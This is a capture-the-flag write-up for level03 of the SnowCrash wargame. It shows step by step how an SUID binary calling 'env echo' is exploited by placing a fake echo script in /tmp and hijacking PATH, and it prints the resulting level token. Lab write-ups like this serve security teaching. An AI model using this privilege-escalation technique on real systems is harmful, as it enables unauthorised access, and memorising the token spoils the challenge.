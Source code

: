## Level 03

When we are logged as level03, we can see level03 file in our home directory.

```bash
level03@SnowCrash:~$ ls -l
total 12
-rwsr-sr-x 1 flag03 level03 8627 Mar  5  2016 level03
```

After looking in the right assigned in this file, we see r-s, the s permission means SUID, the file is executed with the user owner's permission, and the owner is flag03.

When we run it, we have the following message
```bash
level03@SnowCrash:~$ ./level03
Exploit me
```

At this level, we will use ltrace this tool records and print the dynamic library calls.

```bash
level03@SnowCrash:~$ ltrace ./level03
__libc_start_main(0x80484a4, 1, 0xbffff7f4, 0x8048510, 0x8048580 <unfinished ...>
getegid()                                                                      = 2003
geteuid()                                                                      = 2003
setresgid(2003, 2003, 2003, 0xb7e5ee55, 0xb7fed280)                            = 0
setresuid(2003, 2003, 2003, 0xb7e5ee55, 0xb7fed280)                            = 0
system("/usr/bin/env echo Exploit me"Exploit me
 <unfinished ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                                         = 0
+++ exited (status 0) +++
```

As we can see, there is a system call with /usr/bin/env of the echo file. We only have to modify our PATH env to run an echo program. We will run /bin/getflag to get the flag of the next level.

So we will do the following step:
```bash
level03@SnowCrash:~$ echo "/bin/getflag" > /tmp/echo
level03@SnowCrash:~$ chmod 755 /tmp/echo
level03@SnowCrash:~$ export PATH=/tmp/
level03@SnowCrash:~$ ./level03
Check flag.Here is your token : qi0maab88jeaj46qoumi7maus
```


